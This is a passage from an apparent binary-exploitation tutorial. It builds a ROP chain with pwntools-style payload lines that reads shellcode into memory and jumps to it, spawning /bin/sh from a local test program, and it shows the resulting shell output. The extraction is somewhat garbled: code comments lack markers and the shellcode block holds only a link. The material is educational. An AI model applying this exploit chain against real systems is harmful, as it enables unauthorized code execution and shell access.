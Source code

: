         - rax: 0x0
        - rdi: 0x0
        - rsi: 0x00551000
        - rdx: 0x100

        Conveniently, we already have the ROP gadgets needed and only need to rearrange:

        python
        payload += p64(poprax)  sete in poprdi mitigation
        payload += p64(dummy)
        payload += p64(poprdi)  1ST ARGUMENT
        payload += p64(0x0)  STDIN
        payload += p64(poprsi)  2ND ARGUMENT
        payload += p64(buf)  ADDRESS
        payload += p64(poprdx)  3RD ARGUMENT
        payload += p64(0x100)  SIZE
        payload += p64(eax0)  SET RAX = 0
        payload += p64(syscall)  SYSCALL



        Now, we have to provide some code that actually spawns a shell. This 27 bytes assembly program will spawn /bin/sh. It
        is taken from [shell-storm.org](http://shell-storm.org/shellcode/files/shellcode-806.php).

        python
        http://shell-storm.org/shellcode/files/shellcode-806.php


        We send it right after the payload in the resulting python script.


        **Step 3: Jump to the code**

        Running the code we just read in is as simple as jumping to it. And jumping to it means we only have to provide its
        address as the next return address:

        python
        payload += p64(buf)


        If we run the final exploit, we get the following output:

        shell
        johannes@host-pc ~  ./exploitrop.py
        [+] Starting local process './main': pid 75369
        [*] Switching to interactive mode
        id
        uid=1000(johannes) gid=1000(johannes) groups=1000(johannes),54(lock),1001(plugdev)



        We have successfully spawned and control a shell. It runs in the same context as the program did, that is the user
        context here. In a next step, we could try to run a local root exploit to escalate privileges.




        \section{Part 4}

